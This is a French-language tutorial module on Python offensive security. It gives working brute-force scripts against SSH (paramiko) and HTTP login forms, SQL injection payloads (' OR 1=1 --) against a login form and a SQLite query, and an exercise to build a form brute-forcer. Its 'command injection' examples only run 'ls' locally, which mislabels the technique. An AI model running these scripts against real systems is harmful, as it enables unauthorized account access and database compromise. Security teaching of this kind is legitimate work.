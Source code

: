 ### 🟢 Module 4 : Attaques par force brute et exploitation des vulnérabilités

**Objectif du module :**  
Automatiser des attaques pour tester la robustesse des systèmes, avec une attention particulière sur l'attaque par force brute, l'exploitation des failles de type SQL Injection (SQLi), et les tests d'injection de commandes.

---

### **1. Attaque par force brute avec `requests` et `paramiko`**

Les attaques par **force brute** consistent à essayer systématiquement toutes les combinaisons possibles de mots de passe jusqu'à ce que le bon soit trouvé. Ce type d'attaque peut cibler des services comme **SSH**, **FTP**, ou des **formulaires de connexion HTTP**.

#### **Notions à maîtriser :**
- **Force brute sur les connexions SSH avec `paramiko`** : Permet de se connecter à un serveur distant via SSH et de tester des mots de passe.
- **Force brute sur les formulaires de connexion HTTP avec `requests`** : Permet d'envoyer des requêtes HTTP avec différentes combinaisons de noms d'utilisateur et mots de passe pour tester la sécurité des formulaires de connexion.

#### **Exemples pratiques :**

- **Attaque par force brute sur un serveur SSH avec `paramiko` :**
    ```python
    import paramiko

    def brute_force_ssh(host, username, password_list):
        for password in password_list:
            try:
                ssh = paramiko.SSHClient()
                ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                ssh.connect(host, username=username, password=password)
                print(f"Password found: {password}")
                ssh.close()
                break
            except paramiko.AuthenticationException:
                print(f"Failed with password: {password}")

    host = "192.168.1.100"
    username = "root"
    password_list = ["12345", "password", "admin", "toor"]
    brute_force_ssh(host, username, password_list)
    ```
    Ce script tente de se connecter à un serveur SSH en utilisant différents mots de passe.

- **Attaque par force brute sur un formulaire HTTP avec `requests` :**
    ```python
    import requests

    def brute_force_http(url, username, password_list):
        for password in password_list:
            payload = {'username': username, 'password': password}
            response = requests.post(url, data=payload)
            if "Login successful" in response.text:
                print(f"Password found: {password}")
                break
            else:
                print(f"Failed with password: {password}")

    url = "http://example.com/login"
    username = "admin"
    password_list = ["12345", "password", "admin", "toor"]
    brute_force_http(url, username, password_list)
    ```
    Ce script teste un formulaire de connexion HTTP avec différentes combinaisons de mots de passe.

---

### **2. Exploitation des failles SQL Injection (SQLi)**

Les failles de type **SQL Injection** (SQLi) permettent à un attaquant d'injecter des commandes SQL malveillantes dans un formulaire ou une requête SQL, compromettant ainsi la base de données d'un site Web.

#### **Notions à maîtriser :**
- **SQLi sur des requêtes mal protégées** : Permet d'injecter des requêtes SQL malveillantes dans un formulaire.
- **Utilisation de `sqlite3` et `requests` pour exploiter les SQLi** : Permet d'exécuter des requêtes malveillantes contre une base de données via un formulaire Web.

#### **Exemples pratiques :**

- **Exploitation d'une faille SQLi dans un formulaire de connexion (avec `requests`)** :
    ```python
    import requests

    def exploit_sqli(url):
        payload = {"username": "' OR 1=1 --", "password": "' OR 1=1 --"}
        response = requests.post(url, data=payload)
        if "Welcome" in response.text:
            print("SQL Injection successful!")
        else:
            print("SQL Injection failed.")

    url = "http://example.com/login"
    exploit_sqli(url)
    ```
    Ce script envoie une injection SQL dans le formulaire de connexion et tente de se connecter sans avoir à entrer de véritable mot de passe, en utilisant la condition `1=1` (qui est toujours vraie).

- **SQLi avec `sqlite3` pour interagir directement avec une base de données SQLite** :
    ```python
    import sqlite3

    def exploit_sqlite(db_file):
        conn = sqlite3.connect(db_file)
        cursor = conn.cursor()
        cursor.execute("SELECT * FROM users WHERE username='' OR 1=1 --' AND password=''")
        rows = cursor.fetchall()
        for row in rows:
            print(row)
        conn.close()

    db_file = "users.db"
    exploit_sqlite(db_file)
    ```
    Ce script montre comment exploiter une faille SQLi pour obtenir toutes les lignes de la table `users` dans une base de données SQLite.

---

### **3. Test d'injection de commandes avec `os.system` et `subprocess`**

Les injections de commandes permettent à un attaquant d’exécuter des commandes systèmes via des formulaires ou des entrées utilisateur mal sécurisées.

#### **Notions à maîtriser :**
- **Injection de commandes avec `os.system`** : Permet d’exécuter une commande système via Python.
- **Injection de commandes avec `subprocess`** : Offre un contrôle plus puissant et flexible sur l'exécution de commandes systèmes en Python.

#### **Exemples pratiques :**

- **Injection de commandes avec `os.system` :**
    ```python
    import os

    def command_injection(command):
        os.system(command)

    command = "ls"  # Liste les fichiers dans le répertoire courant
    command_injection(command)
    ```
    Ce script exécute une commande système (ici, `ls`) via `os.system`.

- **Injection de commandes avec `subprocess` :**
    ```python
    import subprocess

    def command_injection_subprocess(command):
        result = subprocess.run(command, shell=True, capture_output=True, text=True)
        print(result.stdout)

    command = "ls"
    command_injection_subprocess(command)
    ```
    Ce script utilise `subprocess.run()` pour exécuter une commande système et capturer sa sortie.

---

### **4. Exercice : Créer un script qui teste la robustesse d’un formulaire de connexion contre une attaque par force brute**

#### **Instructions de l'exercice :**
1. **Analysez un formulaire de connexion Web** (HTTP) cible. Il s'agit généralement d'un formulaire avec un champ `username` et un champ `password`.
2. **Créez une liste de mots de passe communs** (ex. : "12345", "password", "admin", etc.) pour tester différentes combinaisons.
3. **Développez un script qui soumet ces combinaisons** de noms d'utilisateur et mots de passe au formulaire de connexion à l'aide de la bibliothèque `requests`.
4. **Vérifiez la réponse** pour savoir si la connexion a réussi (en analysant le texte retourné ou les codes de statut HTTP).
5. **Affichez un message** lorsque le mot de passe correct est trouvé.

#### **Exemple de structure du code :**
```python
import requests

def brute_force_form(url, username, password_list):
    for password in password_list:
        payload = {'username': username, 'password': password}
        response = requests.post(url, data=payload)
        if "Welcome" in response.text:  # Condition à adapter en fonction de la page de connexion
            print(f"Password found: {password}")
            break
        else:
            print(f"Failed with password: {password}")

url = "http://example.com/login"
username = "admin"
password_list = ["12345", "password", "admin", "toor"]
brute_force_form(url, username, password_list)
```

---

### **Conclusion du Module 4 :**

À la fin de ce module, vous devriez être capable de :
- Automatiser des attaques par force brute pour tester la robustesse des services d'authentification (SSH, FTP, HTTP).
- Exploiter des failles de type SQL Injection pour accéder à des bases de données non sécurisées.
- Tester des injections de commandes pour compromettre un système via des interfaces non sécurisées.

Ces compétences vous préparent à aborder le **Module 5** sur la post-exploitation et l’élévation de privilèges.